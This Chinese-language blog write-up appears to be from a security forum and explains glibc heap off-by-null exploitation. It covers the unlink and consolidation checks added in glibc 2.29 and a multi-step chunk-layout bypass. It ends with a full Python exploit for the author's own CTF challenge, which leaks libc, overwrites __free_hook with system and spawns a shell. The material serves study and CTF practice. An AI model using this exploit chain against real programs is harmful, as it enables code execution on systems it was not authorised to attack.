即当 `size` 大于 `global_max_fast` 且不是 `mmap` 出来的 `chunk` 时，就会进入判断。所以这里我们进行释放用的 `chunk` 的大小就必须要大于 `global_max_fast` 才行，否则就是改掉了 `pre_inuse` 位也是直接进入 `fastbin`，不会进入判断的。

- 先依据当前 `chunk`（`chunkP`）的 `pre_inuse` 位来判断前一个 `chunk`（`preChunk`）是否处于释放状态，是则进入 `unlink`，将前一个 `chunk` 取出
- 然后判断下一个 `chunk`（`nextChunk`）是否是 `top_chunk`，是则直接与 `top_chunk` 合并。
- 若 `nextChunk` 不为 `top_chunk`，再判断下一个 `Chunk` 的再下一个 `chunk` 的 `pre_inuse` 位来判断 `nextChunk` 是否处于释放状态，若是则进入 `unlink`。

然后 `unlink` 中就不细说，就是双向循环链表解链的过程，依据 `fd` 和 `bk` 来查找并解链，但是我们的 `off-by-null` 通常不会涉及到 `nextsize` 位的使用，所以基本不用看后面的。需要注意的是，由于这里会检查，即：

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);
```

所以我们需要将进入 `unlink` 的 `chunk` 的 `fd` 和 `bk` 来进行伪造或者干脆直接释放使其直接进入 `unsortedbin` 中完成双向链表的加持。这里先讲放入 `unsortedbin` 中来获取 `fd` 和 `bk` 的方法，伪造的方法一般用在 `2.29` 及以上的高版本中，因为那时候的 `unlink` 加入了关于 `size` 位的检查，不能简单得伪造 `fd` 和 `bk`。

其次，这里还需要明白一个寻找 `chunk` 的原理。

- 寻找 `preChunk`：`preChunk_addr = chunkP_addr - chunkP->pre_size`
- 寻找 `nextChunk`：`nextChunk_addr = chunkP_addr + chunkP->size`

即以下源码，这个一直没有变化过：

```c
/* Ptr to previous physical malloc_chunk.  Only valid if !prev_inuse (P). */
#define prev_chunk(p) ((mchunkptr) (((char *) (p)) - prev_size (p)))

/* Ptr to next physical malloc_chunk. */
#define next_chunk(p) ((mchunkptr) (((char *) (p)) + chunksize (p)))

/* Get size, ignoring use bits */
#define chunksize(p) (chunksize_nomask (p) & ~(SIZE_BITS))

/* extract p's inuse bit */
#define inuse(p) \
((((mchunkptr) (((char *) (p)) + chunksize (p)))->mchunk_size) & PREV_INUSE)
```

所以，如果我们可以伪造 `pre_size` 和 `in_use` 位，就能触发向上任意寻找一个满足 `fd` 和 `bk` 为双向链表的 `chunk`，从而将中间所有的 `chunk` 都一并合并为一个 `Chunk` 释放掉。(向下合并也可以的，不过一般不常使用)


这里就是通过释放 `chunkP`，依据 `pre_size` 向上寻找到原本已经在 `unsortedbin` 中的 `preChunk`，其 `FD` 和 `BK` 已经组成双向循环链表，可以绕过检查，所以释放 `ChunkP` 之后 `preChunk+OverlapChunk+chunkP` 都进入到 `unsortedbin` 中。但是 `OverlapChunk` 本身其实并没有被释放，我们再从 `unsortedbin` 中申请切割出 `preChunk` 大小的 `chunk`，再申请就可以得到 `OverlapChunk`。这样我们就有两个指针都指向 `OverlapChunk`，从而伪造出 `UAF`，之后我们就可以通过 `OverlapChunk` 来 `getshell` 了。

## 1.常用布局

```python
add_malloc(0xf8, '\x00'*0xf8) #0x1
add_malloc(0x68, '\x00'*0x68) #0x2
add_malloc(0xf8, '\x00'*0xf8) #0x3
add_malloc(0x68, '\x00'*0x68) #0x4
free(0x1)
edit(0x2,0x70,'\x00'*0x60+p64(0x70+0x100)+p16(0x100))
free(0x3)
```

`off-by-null` 在调试中不太好搞，所以我就借用堆溢出来假设存在 `off-by-null`，将 `chunk3` 原本的 `size` 位 `0x101` 通过 `off-by-null` 变成 `0x100` 即可。

## 2.注意事项

### (1)顺序

此外需要注意的是，需要先释放 `chunk1`，再溢出修改 `chunk3`。不然如果先修改 `chunk3`，那么释放 `chunk1` 的时候，寻找 `chunk1` 的 `nextChunk` 即 `chunk2`，判断 `chunk2` 是否处于释放状态时，会找到 `chunk3`，依据 `pre_inuse` 位发现 `chunk2` 已经处于释放状态，那么尝试进入 `unlink` 合并，但是这里的 `chunk2` 的 `fd` 和 `bk` 并没有组成双向循环链表，所以会出错。

### (2)size位的设置

- `0x100`：这里注意到上面的布局中 `size` 位为 `0x100` 和 `0x70`，这里的 `0x100` 就是为了通过 `off-by-null` 将 `0x101` 变成 `0x100` 设置的。当然设置为 `0x201`，`0x301` 通常也是一样的。
- `0x70`：这里就通常是为了方便打 `fastbin attack`，从 `_malloc_hook` 处构造 `0x7f` 字节错位用的。

# 二、更新换代

## 1.Glibc2.27

这里也不是特指 `2.27`，而指的是 `Glibc2.29` 以下的存在 `tcache` 的版本，这类版本通常需要填充满 `tcache` 再进行释放，也不需要多讲。

## 2.Glibc2.29

从这个版本开始，`off-by-null` 由于加入的检查，引入了好几种全新的利用方式。

### (1)_int_free中的变化

```c
if (!prev_inuse(p)) {
  prevsize = prev_size (p);
  size += prevsize;
  p = chunk_at_offset(p, -((long) prevsize));
  if (__glibc_unlikely (chunksize(p) != prevsize))
    malloc_printerr ("corrupted size vs. prev_size while consolidating");
  unlink_chunk (av, p);
}
```

加入的检查是

```c
if (__glibc_unlikely (chunksize(p) != prevsize))
  malloc_printerr ("corrupted size vs. prev_size while consolidating");
```

这里的 `p` 因为 `p = chunk_at_offset(p, -((long) prevsize));` 已经变成了 `preChunk`。所以这里就是检查 `preChunk->size` 是否等于 `chunkP->pre_size`。按照上面那张图的逻辑，`preChunk` 的 `size` 为 `0x101`，`chunkP` 的 `pre_size` 为 `0x170`，两个不等于，根本就无法进入 `unlink` 中，直接崩掉。


### (2)unlink变化

首先 `unlink` 从宏定义变成了全局函数定义，名字也从 `unlink` 变成了 `unlink_chunk`，但实际内容没有变太多，只是加入了一些检查：

```c
/* Take a chunk off a bin list. */
static void
unlink_chunk (mstate av, mchunkptr p)
{
  if (chunksize (p) != prev_size (next_chunk (p)))
    malloc_printerr ("corrupted size vs. prev_size");

  mchunkptr fd = p->fd;
  mchunkptr bk = p->bk;

  if (__builtin_expect (fd->bk != p || bk->fd != p, 0))
    malloc_printerr ("corrupted double-linked list");

  fd->bk = bk;
  bk->fd = fd;
  if (!in_smallbin_range (chunksize_nomask (p)) && p->fd_nextsize != NULL)
    {
      if (p->fd_nextsize->bk_nextsize != p
          || p->bk_nextsize->fd_nextsize != p)
        malloc_printerr ("corrupted double-linked list (not small)");

      if (fd->fd_nextsize == NULL)
        {
          if (p->fd_nextsize == p)
            fd->fd_nextsize = fd->bk_nextsize = fd;
          else
            {
              fd->fd_nextsize = p->fd_nextsize;
              fd->bk_nextsize = p->bk_nextsize;
              p->fd_nextsize->bk_nextsize = fd;
              p->bk_nextsize->fd_nextsize = fd;
            }
        }
      else
        {
          p->fd_nextsize->bk_nextsize = p->bk_nextsize;
          p->bk_nextsize->fd_nextsize = p->fd_nextsize;
        }
    }

}
```

加入的检查，就加了一个 `if` 语句：

```c
if (chunksize (p) != prev_size (next_chunk (p)))
  malloc_printerr ("corrupted size vs. prev_size");
```

即在 `unlink` 时会检查 `nextChunk` 的 `pre_size` 是否等于 `chunkP` 的 `size`。


按照之前那张图的逻辑，进入 `unlink` 中时 `preChunk` 的 `size` 为 `0x100`，`preChunk` 的 `nextChunk`，即 `overlapChunk` 的 `pre_size` 为 `0x100`，相等，可以满足要求，没啥大用，但是之后提出的绕过手段也是需要绕过这个检查的。


▲后面的更高版本，到 `2.33` 都没变化，也就不提了。只是 `2.32` 中的指针异或可能需要注意一下，但是之后的绕过手段一般是基于 `unsortedbin`，`smallbin`，`largebin` 来绕过，不存在指针异或的情况，所以也不用太在意。

# 三、高版本花式绕过

这里将的是 `2.29` 及以上的版本

## 第一种

这个之前写过，参考这篇文章：

[2.29下的off-by-null | PIG-007](https://bbs.kanxue.com/elink@8d0K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2H3K9h3N6Q4x3X3b7H3x3o6N6Q4x3X3g2@1L8%4m8Q4x3V1j5J5x3o6t1I4i4K6u0r3x3o6S2Q4x3V1j5I4y4q4)9J5c8U0u0Q4x3X3f1J5z5g2!0q4y4q4!0n7z5q4)9^5b7W2!0q4y4#2)9&6b7g2)9^5y4r3!0X3k6W2)9J5k6r3u0&6i4K6u0V1L8Y4g2D9L8q4)9J5c8R3`.`.)

或者 `t1an5g` 师傅的文章：

https://bbs.pediy.com/thread-257901.htm#msg_header_h2_2

当然 `ex` 师傅的原始解析也很好：

eadK9s2c8@1M7q4)9K6b7g2)9J5c8W2)9J5c8X3u0D9L8$3N6Q4x3X3g2W2L8$3&6W2N6#2)9J5k6h3y4F1i4K6u0r3j5i4u0U0K9r3W2$3k6i4y4Q4x3V1j5I4x3U0x3K6

但是这个需要爆破半个字节，也不能对 `size` 做太多的限制，且 `chunk` 需要申请大概有 `24` 个，所以看个人需要。

## 第二种

这个也写过，参考这篇：

[2.29-2.32下的off-by-null | PIG-007](https://bbs.kanxue.com/elink@fb2K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2H3K9h3N6Q4x3X3b7H3x3o6N6Q4x3X3g2@1L8%4m8Q4x3V1j5J5x3o6t1I4i4K6u0r3x3o6S2Q4x3V1j5I4y4q4)9J5c8U0u0Q4x3X3f1J5z5g2)9J5k6o6u0Q4x3X3f1K6x3W2!0q4y4q4!0n7z5q4)9^5b7W2!0q4y4#2)9&6b7g2)9^5y4r3!0X3k6W2)9J5k6r3u0&6i4K6u0V1L8Y4g2D9L8q4)9J5c8R3`.`.)

当然我也是参考 `WJH` 师傅的：

[glibc 2.29-2.32 off by null bypass - 安全客，安全资讯平台 (anquanke.com)](https://bbs.kanxue.com/elink@f29K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2S2L8Y4q4#2j5h3&6C8k6g2)9J5k6h3y4G2L8g2)9J5c8Y4m8G2M7%4c8Q4x3V1k6A6k6q4)9J5c8U0t1K6y4U0l9%4z5l9`.`.)

这个不需要爆破，但是对 `size` 的限制不能太严格，需要 `largebin` 的 `size`。

## 第三种

这个还没写过总结，现在来，不过先贴下文章，`init-0` 师傅的：

[堆漏洞利用（2.29以上glibc,off-by-null, 加了申请size限制） - 安全客，安全资讯平台 (anquanke.com)](https://bbs.kanxue.com/elink@c57K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6%4N6%4N6Q4x3X3g2S2L8Y4q4#2j5h3&6C8k6g2)9J5k6h3y4G2L8g2)9J5c8Y4m8G2M7%4c8Q4x3V1k6A6k6q4)9J5c8U0t1K6x3e0b7I4z5q4)9J5x3$3R3K6i4K6u0V1z5l9`.`.)

这种方法在 `size` 限制下也可以使用，文章中的限制是 `0xe8` 的堆块，真是将堆布局用到极高的水平。

▲先看最终的布局效果：


这样就能通过两项检查了：

|  |  |
| --- | --- |
| 1 2 3 4 5 6 7 | `// _int_free中 if (__glibc_unlikely (chunksize(p) != prevsize)) malloc_printerr ("corrupted size vs. prev_size while consolidating"); // unlink中 if (chunksize (p) != prev_size (next_chunk (p))) malloc_printerr ("corrupted size vs. prev_size");` |

### (1) 前置布局：

由于 `init-0` 师傅的题目中，申请 `chunk` 从 `0x3a0` 开始的，所以这里我就也以 `0x3a0` 开始：

```
#get layout to let chunk0_addr = 0x****3a0
claim(0x88)# 0-6            #1-7
claim(0x98)# 7-13            #8-14
claim(0xa8)# 14-20            #15-21
claim(0xb8)# 21-27            #22-28
claim(0xc8)# 28-34            #29-35
claim(0xd8)# 35-41            #36-42
claim(0xe8)# 42-48            #43-49
#--------------------------
add_malloc(0x98,'\x00')# 49                 #50
add_malloc(0x98,'\x00')# 50                 #51        0x****f900
add_malloc(0x18,'\x00')# 51                  #52     0x****f9a0
add_malloc(0xa8,'\x00')# 52     0             #53        0x****f9c0
add_malloc(0xb8,'\x00')# 53     1             #54        0x****fa70
add_malloc(0xd8,'\x00')# 54     2             #55        0x****fb30
add_malloc(0xd8,'\x00')# 55                 #56
add_malloc(0xe8,'\x00')# 56     3             #57        0x****fcf0
#这个0x200和0xe0的设置是为了之后将unsortedbinChunk给改成0x200备用的
fakeChunk_nextChunk_preSize = p64(0x200) + p64(0xe0)
edit(57,0x10,fakeChunk_nextChunk_preSize)# 56            #57
add_malloc(0xe8,'\x00')# 57    4             #58     0x****fde0
add_malloc(0x98,'\x00')# 58                 #59
add_malloc(0xe8,'\x00')# 59                 #60     0x****ff70
add_malloc(0x18,'\x00')# 60                 #61
```

### (2) 填充 `tcache`

并且将要利用的 `Chunk` 释放合并进入 `unsortedbin`

```
#free 0~48         #1~49
#-------------------------
#--tcache
for i in range(0,7):
#0x88
free(i+1)
for i in range(14,21):#0xa8
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
for i in range(35,42):#0xd8
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#--tcache

for i in range(52,57):
#52~56                  #53~57  merge into unsortedbin
free(i+1)
```


```
graph TD;
0(chunk53<br>0xa8<br>0x****9c0)--->1(chunk54<br>0xb8)--->2(chunk55<br>0xd8)--->3(chunk56<br>0xd8)--->4(chunk57<br>0xe8<br>0x****cf0)
```

### (3) 重构 `53~57` 结构为 `97~101`

```
#---------------------------
# empty tcache
claim(0x88) #62~68
claim(0xa8) #69~75
claim(0xb8) #76~82
claim(0xd8) #83~89
claim(0xe8) #90~96
#---------------------------
#---------------------------------------------------------------- 上面是一个大的unsorted bin
#进行add之后carver up and unsortedbin 被放入了largebin 之后进行了分配
add_malloc(0x98,'\x00')# 52     #97      #0x****9c0
add_malloc(0x98,'\x00')# 53     #98        #0x****A60

fake_chunk_size = 0x98 * "a" + p16(0x200)
#这里我借用堆溢出来仿照off-by-null，修改还在largebin中的chunk的size从0x2e1->0x200
#changing largebinChunk_size will not cause abort
edit(98,0x98+0x2,fake_chunk_size)#53 #98
add_malloc(0x88,'\x00')#54     #99     #0x****B00
add_malloc(0x88,'\x00')#55  #100     #0x****B90
add_malloc(0xd8,'\x00')#56  #101     #0x****C70
```

重构之后如下

```
graph TD;
0(chunk97<br>0x98<br>0x****9c0)--->1(chunk98<br>0x98)--->2(chunk99<br>0x88)--->3(chunk100<br>0x88)--->4(chunk101<br>0xd8<br>0x****cf0)--->5(0xe0碎片)
```

那么实际上其实原先的 `0x420` 被申请了 `0x340`，还有一部分 `0xe0` 没有被申请出来。


### (4) 构造 `preChunk` 的 `fd` 和 `bk`

```
#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(0,7):#0x88
free(i+1)
for i in range(42,49):#0xe8
free(i+1)
#------tcache
free(51)#0x98     #50      #51 #0x****f900
#let 99->fd = chunk51_addr(0x****f900)
free(99)#0x88      #54     #99
#let 99->bk = chunk60_addr(0x****ff70)
free(60)#0xe8     #59     #60 #0x****ff70
```


### (5) 再重构 `97~101` 为 `97->124->132->134`


```python
free(98)#0x98     #53     #98
#---------------add back
claim(0x88) #102~108
claim(0x98) #109~115
claim(0xe8) #116~122
#---------------add back
#将51,99,98分别放入对应的smallbin,98和99由于物理相邻，所以合并成为0x130的块
#之后依据大小适配原则将60分配回来给123
add_malloc(0xd8,'\x00') # 0x32        #123 0x****ff70,实际大小为0xf0
#将0x131的smallbin切分，此时51还在0xa0的smallbin中，剩下0x70的Chunk进入unsortedbin中
add_malloc(0xb8,'\x00') # 0x35          #124 0x****fa60
for i in range(0,7):#0x88
free(i+1)
#chunk100放入unsortedbin, 与0x70的碎片合并，形成0x101的块
free(100) #55     #100
claim(0x88) #125~131
#切割0x101的块，获得0xb8大小的0x****fb20，方便与0x****f900的块放入同一个unsortebin中
add_malloc(0xb8,'\x00') #0x36     #132     0x****fb20
add_malloc(0x98,'\x00') #0x37      #133    0x****f900
add_malloc(0x38,'\x00') #0x3b     #134     0x****fbe0
```

重构之后如下


### (6)修复`FD->bk`和`BK->fd`

```python
#------tcache
for i in range(42,49):#0xe8
free(i+1)
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache

#let 133->bk = chunk132_addr(0x****f900->bk = 0x****fb20)
free(133) #0x37     #133     0x****f900
free(132) #0x36      #132     0x****fb20
#let 123->fd = chunk132_addr(0x****ff70->bk = 0x****fb20)
free(123) #0x32     #123      0x****ff70
```

### (7)再重构为`97->124->157->134`

方便将`0x****ff70`和`0x****f900`的对于`fd`,`bk`进行off-by-null，使得`0xb20`变为`0xb00`。

```python
free(59) #58        #59        0x****fed0
#chunk59和chunk123合并进入unsortedbin，大小0x190(0xf0+0xa0)

claim(0x98) #135~141
claim(0xb8) #142~148
claim(0xe8) #149~155

add_malloc(0xc8,'\x00') #0x32         #156     0x****fed0
add_malloc(0xb8,'\x00') #0x36         #157     0x****fb20
add_malloc(0xb8,'\x00') #0x37          #158    0x****ffa0
add_malloc(0x98,'\x00') #58          #159     0x****f900

#--top_chunk
add_malloc(0x98,'\x00') #0x3d             #160
add_malloc(0x98,'\x00') #0x3e             #161
add_malloc(0x18,'\x00') #0x3f             #162

#------tcache
for i in range(7,14):#0x98
free(i+1)
for i in range(21,28):#0xb8
free(i+1)
#------tcache

free(161) #0x98     #0x3e         #161
free(159) #0x98     #58          #159     0x****f900
free(157) #0xb8     #0x36         #157
free(50) #0x98     #49         #50     0x****f860
#其中159和50合并为0x140大小的块放入unsortedbin中
#unsortedbin:0x****f860 —▸ 0x****fb20 —▸ 0x****0120

claim(0xb8) #163~169
claim(0x98) #170~176
#----------------------------------------------------
add_malloc(0xb8,'\x00') #49     #177
add_malloc(0x98,'\x00') #0x36      #178

#切割0x140的块
add_malloc(0xc8,'\x00') #0x3a     #179     0x****f860
add_malloc(0x68,'\x00') #0x3e       #180
```

现在就可以通过`chunk179`来将`0x****f900`中的`bk`给改掉。

通过`chunk156`来将`0x****ff70`中的`fd`给改掉。

### (8)利用off-by-null得到最终布局

```python
partial_null_write = 0x98*'b'
partial_null_write += p64(0xf1)
edit(156,0x98+0x8+0x1,partial_null_write+'\x00') #0x32      #156

partial_null_write = 0xa8*'c'
edit(179,0xa8+0x1,partial_null_write+'\x00') #0x3a         #179

#伪造pre_size
fake_chunk_size = 0x98*'d'
fake_chunk_size += p64(0x2e1)
edit(124,0x98+0x8,fake_chunk_size) #0x35     #124
```

### (9)触发off-by-null

```python
for i in range(42,49):#0xe8
free(i+1)
free(58)
```

### ▲总结

①利用`unsortedbin`成链机制，合并`unsortedbin`中的`chunk`并且切割，这样就能保留住`FD`和`BK`了。

②再利用`unsortedbin`成链和切割的机制，就能修改到对应`preChunk`的`FD`和`BK`了，修改最后一个字节为`\x00`即可。

③由于2.29之后添加的两项检查，所以需要注意的是伪造`unsortedbinChunk`的`size`时，也要伪造`nextChunk`的`pre_size`和`pre_inuse`位。

④太他丫的麻烦了，有这时间布局还不如肝其他题.....

再贴个汇总的`exp`，基于`libc2.30`，自己的题目：


```
#有size限制，对应索引往后移即可
add_malloc(`0x1000`-`0x290`+`0x3000`-`0x8`+`0x3a0`,`'PIG007NB'`)
#old             #new
#get layout to let chunk0_addr = 0x****3a0
claim(`0x88`)# 0-6            #1-7
claim(`0x98`)# 7-13            #8-14
claim(`0xa8`)# 14-20            #15-21
claim(`0xb8`)# 21-27            #22-28
claim(`0xc8`)# 28-34            #29-35
claim(`0xd8`)# 35-41            #36-42
claim(`0xe8`)# 42-48            #43-49
#--------------------------
add_malloc(`0x98`,`'\x00'`)# 49                 #50
add_malloc(`0x98`,`'\x00'`)# 50                 #51        0x****f900
add_malloc(`0x18`,`'\x00'`)# 51                  #52     0x****f9a0
add_malloc(`0xa8`,`'\x00'`)# 52     0             #53        0x****f9c0
add_malloc(`0xb8`,`'\x00'`)# 53     1             #54        0x****fa70
add_malloc(`0xd8`,`'\x00'`)# 54     2             #55        0x****fb30
add_malloc(`0xd8`,`'\x00'`)# 55                 #56
add_malloc(`0xe8`,`'\x00'`)# 56     3             #57        0x****fcf0
#这个0x200和0xe0的设置是为了之后将unsortedbinChunk给改成0x200备用的
fakeChunk_nextChunk_preSize = p64(`0x200`) + p64(`0xe0`)
edit(`57`,`0x10`,fakeChunk_nextChunk_preSize)# 56            #57
add_malloc(`0xe8`,`'\x00'`)# 57    4             #58     0x****fde0
add_malloc(`0x98`,`'\x00'`)# 58                 #59
add_malloc(`0xe8`,`'\x00'`)# 59                 #60     0x****ff70
add_malloc(`0x18`,`'\x00'`)# 60                 #61
#free 0~48         #1~49
#-------------------------
#--tcache
for i in range(`0`,`7`): #0x88
  free(i+`1`)
for i in range(`14`,`21`):#0xa8
  free(i+`1`)
for i in range(`21`,`28`):#0xb8
  free(i+`1`)
for i in range(`35`,`42`):#0xd8
  free(i+`1`)
for i in range(`42`,`49`):#0xe8
  free(i+`1`)
#--tcache
for i in range(`52`,`57`): #52~56                  #53~57  merge into unsortedbin
  free(i+`1`)
#---------------------------
# empty tcache
claim(`0x88`) #62~68
claim(`0xa8`) #69~75
claim(`0xb8`) #76~82
claim(`0xd8`) #83~89
claim(`0xe8`) #90~96
#---------------------------
#---------------------------------------------------------------- 上面是一个大的unsorted bin
#进行add之后carver up and unsortedbin 被放入了largebin 之后进行了分配
add_malloc(`0x98`,`'\x00'`)# 52     #97      #0x****9c0
add_malloc(`0x98`,`'\x00'`)# 53     #98        #0x****A60
fake_chunk_size = `0x98` * "a" + p16(`0x200`)
#这里我借用堆溢出来仿照off-by-null，修改还在largebin中的chunk的size从0x2e1->0x200
#changing largebinChunk_size will not cause abort
edit(`98`,`0x98`+`0x2`,fake_chunk_size)#53 #98
add_malloc(`0x88`,`'\x00'`)#54     #99     #0x****B00
add_malloc(`0x88`,`'\x00'`)#55  #100     #0x****B90
add_malloc(`0xd8`,`'\x00'`)#56  #101     #0x****C70
#构造preChunk的fd和bk------------------------
#------tcache
for i in range(`7`,`14`):#0x98
  free(i+`1`)
for i in range(`0`,`7`):#0x88
  free(i+`1`)
for i in range(`42`,`49`):#0xe8
  free(i+`1`)
#------tcache
free(`51`)#0x98     #50      #51 #0x****f900
#let 99->fd = chunk51_addr(0x****f900)
free(`99`)#0x88      #54     #99
#let 99->bk = chunk60_addr(0x****ff70)
free(`60`)#0xe8     #59     #60 #0x****ff70
#构造preChunk的fd和bk------------------------
free(`98`)#0x98     #53     #98
#---------------add back
claim(`0x88`) #102~108
claim(`0x98`) #109~115
claim(`0xe8`) #116~122
#---------------add back
#将51,99,98分别放入对应的smallbin,98和99由于物理相邻，所以合并成为0x130的块
#之后依据大小适配原则将60分配回来给123
add_malloc(`0xd8`,`'\x00'`)# 0x32        #123 0x****ff70,实际大小为0xf0
#将0x131的smallbin切分，此时51还在0xa0的smallbin中，剩下0x70的Chunk进入unsortedbin中
add_malloc(`0xb8`,`'\x00'`)# 0x35          #124 0x****fa60
for i in range(`0`,`7`):#0x88
  free(i+`1`)
#chunk100放入unsortedbin, 与0x70的碎片合并，形成0x101的块
free(`100`) #55     #100
claim(`0x88`) #125~131
#切割0x101的块，获得0xb8大小的0x****fb20，方便与0x****f900的块放入同一个unsortebin中
add_malloc(`0xb8`,`'\x00'`)#0x36     #132     0x****fb20
add_malloc(`0x98`,`'\x00'`)#0x37      #133    0x****f900
add_malloc(`0x38`,`'\x00'`)#0x3b     #134     0x****fbe0
#修复FD->bk和BK->fd-----------------------------
#------tcache
for i in range(`42`,`49`):#0xe8
  free(i+`1`)
for i in range(`7`,`14`):#0x98
  free(i+`1`)
for i in range(`21`,`28`):#0xb8
  free(i+`1`)
#------tcache
#let 133->bk = chunk132_addr(0x****f900->bk = 0x****fb20)
free(`133`) #0x37     #133     0x****f900
free(`132`) #0x36      #132     0x****fb20
#let 123->fd = chunk132_addr(0x****ff70->bk = 0x****fb20)
free(`123`) #0x32     #123      0x****ff70
#修复FD->bk和BK->fd-----------------------------
free(`59`) #58        #59        0x****fed0
#chunk59和chunk123合并进入unsortedbin，大小0x190(0xf0+0xa0)
claim(`0x98`) #135~141
claim(`0xb8`) #142~148
claim(`0xe8`) #149~155
add_malloc(`0xc8`,`'\x00'`) #0x32         #156     0x****fed0
add_malloc(`0xb8`,`'\x00'`) #0x36         #157     0x****fb20
add_malloc(`0xb8`,`'\x00'`) #0x37          #158    0x****ffa0
add_malloc(`0x98`,`'\x00'`) #58          #159     0x****f900
#--top_chunk
add_malloc(`0x98`,`'\x00'`) #0x3d             #160
add_malloc(`0x98`,`'\x00'`) #0x3e             #161
add_malloc(`0x18`,`'\x00'`) #0x3f             #162
#------tcache
for i in range(`7`,`14`):#0x98
  free(i+`1`)
for i in range(`21`,`28`):#0xb8
  free(i+`1`)
#------tcache
free(`161`) #0x98     #0x3e         #161
free(`159`) #0x98     #58          #159     0x****f900
free(`157`) #0xb8     #0x36         #157
free(`50`) #0x98     #49         #50     0x****f860
#其中159和50合并为0x140大小的块放入unsortedbin中
#unsortedbin:0x****f860 —▸ 0x****fb20 —▸ 0x****0120
claim(`0xb8`) #163~169
claim(`0x98`) #170~176
#----------------------------------------------------
add_malloc(`0xb8`,`'\x00'`) #49     #177
add_malloc(`0x98`,`'\x00'`) #0x36      #178
#切割0x140的块
add_malloc(`0xc8`,`'\x00'`)#0x3a     #179     0x****f860
add_malloc(`0x68`,`'\x00'`)#0x3e       #180
partial_null_write = `0x98`*`'b'`
partial_null_write += p64(`0xf1`)
edit(`156`,`0x98`+`0x8`+`0x1`,partial_null_write+`'\x00'`) #0x32      #156
partial_null_write = `0xa8`*`'c'`
edit(`179`,`0xa8`+`0x1`,partial_null_write + `'\x00'`) #0x3a         #179
#伪造pre_size
fake_chunk_size = `0x98`*`'d'`
fake_chunk_size += p64(`0x2e1`)
edit(`124`,`0x98`+`0x8`,fake_chunk_size) #0x35     #124
for i in range(`42`,`49`):#0xe8
  free(i+`1`)
free(`58`)
#pull-down the unsortedbinChunk to chunk134 and leak main_arena
edit(`134`,`0x8`,`"e"*8`) #0x3b #134
add_malloc(`0xd8`,`'\x00'`) #181
show(`134`)
libc_base = u64Leakbase(unsortedBinIdx + libc.sym[`'__malloc_hook'`] + `0x10`)
lg(`'libc_base'`,libc_base)
#---------------------------------------------------------------------------------
claim(`0xe8`) #182~188
add_malloc(`0xe8`,`'\x00'`) #0x40     #189
free(`44`) #0x2b     #44
free(`134`) #0x3b     #134
edit(`189`,`0x8`,p64(libc_base+libc.sym[`'__free_hook'`]-`8`)) #0x40     #189
add_malloc(`0xe8`,`'\x00'`) #190
add_malloc(`0xe8`,`'\x00'`) #191
edit(`191`,`0x10`,`"/bin/sh\x00"+p64(libc_base+libc.sym[`'system'`])`) #191
free(`191`)
it()
```


[冰与火的战歌：Windows内核攻防实战高级班！从零到实战，融合AI与Windows内核攻防全技术栈，打造具备自动化能力的内核开发高手。](https://www.kanxue.com/book-section_list-227.htm)
